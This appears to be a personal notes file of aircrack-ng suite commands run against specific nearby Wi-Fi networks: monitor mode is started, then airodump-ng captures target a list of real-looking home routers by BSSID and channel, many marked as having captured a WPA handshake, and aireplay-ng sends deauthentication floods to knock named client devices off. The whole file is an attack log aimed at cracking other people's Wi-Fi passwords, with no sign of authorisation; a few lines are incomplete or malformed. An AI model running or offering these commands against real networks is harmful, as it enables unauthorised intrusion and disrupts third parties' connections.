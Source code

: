 1. airmon-ng start wlan0
2. airodump-ng wlan0mon 
3. next

airodump-ng -c 2 --bssid D8:32:14:72:E0:51 -w 1108 wlan0mon (handshake)


airodump-ng -c 11 --bssid 48:0E:EC:7C:17:E4 -w 480eec7c17e4-chen-17B wlan0mon (handshake)
aireplay-ng -0 10 -a 48:0E:EC:7C:17:E4 -c E2:C0:96:8A:95:F9 wlan0mon


airodump-ng -c 12 --bssid 50:89:65:27:6A:98 -w 508965276a98-cpp001 wlan0mon (handshake)
aireplay-ng -0 10 -a 50:89:65:27:6A:98 -c 4C:EA:AE:88:39:DF wlan0mon


airodump-ng -c 4 --bssid 8C:14:B4:47:24:F0 -w 8c14b44724f0-ChinaNet-7WSi wlan0mon


airodump-ng -c 7 --bssid 50:FA:84:4A:7C:55 -w 50fa844a7c55-TP-LINK_1107 wlan0mon (handshake)
aireplay-ng -0 10 -a 50:FA:84:4A:7C:55 -c A0:CC:2B:B2:D5:9F wlan0mon


airodump-ng -c 6 --bssid 18:F2:2C:B4:92:18 -w 18f22cb49218-TP-LINK_1203 wlan0mon (handshake)
aireplay-ng -0 10 -a 18:F2:2C:B4:92:18 -c C8:28:32:85:E3:23 wlan0mon


airodump-ng -c 11 --bssid 48:0E:EC:50:97:E4 -w 480eec5097e4-xiaokeaidejia wlan0mon
aireplay-ng -0 10 -a 48:0E:EC:50:97:E4 -c 


airodump-ng -c 1 --bssid A4:39:B3:83:73:65 -w a439b37365-XiaoHua-608 wlan0mon (handshake)
aireplay-ng -0 10 -a A4:39:B3:83:73:65 -c 4E:11:A7:9E:A8:B6 wlan0mon


airodump-ng -c 8 --bssid D8:32:14:72:E0:51 -w d8321472e051-Tenda_72E050 wlan0mon (handshake)
aireplay-ng -0 10 -a D8:32:14:72:E0:51 -c 14:2D:27:49:80:89 wlan0mon


airodump-ng -c 7 --bssid 56:FA:84:4A:7C:55 -w fa844a7c55-Guest_7C55 wlan0mon


airodump-ng -c 11 --bssid C8:BF:4C:44:DB:82 -w c8bf4c44db82-K2P_5794 wlan0mon (handshake)
aireplay-ng -0 10 -a C8:BF:4C:44:DB:82 -c 44:23:7C:8D:12:25 wlan0mon


airodump-ng -c 10 --bssid D4:35:38:80:63:B8 -w d435388063b8-Thea wlan0mon (handshake)
aireplay-ng -0 10 -a D4:35:38:80:63:B8 -c B0:46:92:28:D6:7B wlan0mon


airodump-ng -c 6 --bssid A4:1A:3A:13:8A:EC -w a41a3a138aec-TP-LINK_8AEC wlan0mon



airodump-ng -c 11 --bssid 44:F9:71:35:28:40 -w 44f971352840-MERCURY_2840 wlan0mon



airodump-ng -c 4 --bssid C8:BF:4C:05:E2:FA -w c8bf4c05e2fa-Xiaomi_A0FD-1207 wlan0mon (handshake)
aireplay-ng -0 10 -a C8:BF:4C:05:E2:FA -a 88:2D:53:59:EC:3D wlan0mon



airodump-ng -c 11 --bssid 08:6B:D1:2B:65:D0 -w 086bd12b65d0-ChinaNet-rJZc wlan0mon



airodump-ng -c 11 --bssid  FC:37:2B:35:73:19 -w fc372b357319-ChinaNet-QQ wlan0mon (handshake)



